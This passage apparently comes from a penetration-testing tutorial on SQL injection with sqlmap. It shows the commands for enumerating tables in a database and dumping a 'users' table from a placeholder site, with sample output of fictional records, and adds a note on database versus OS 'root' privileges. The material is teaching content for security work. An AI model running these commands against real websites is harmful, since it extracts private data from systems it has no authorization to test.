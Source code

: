[*] ending @ 13:30:58 /2020-09-17/
</code></pre>
<p>From the above example, we can see that the database version is quite old (MySQL 5.1.41 - from November 2009), and the current user name is <code>root</code>, while the current database name is <code>testdb</code>.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.</p>
</div>
</div>
<hr/>
<h2>Table Enumeration</h2>

<p>In most common scenarios, after finding the current database name (i.e. <code>testdb</code>), the retrieval of table names would be by using the <code>--tables</code> option and specifying the DB name with <code>-D testdb</code>, is as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
</code></pre>
<p>After spotting the table name of interest, retrieval of its content can be done by using the <code>--dump</code> option and specifying the table name with <code>-T users</code>, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

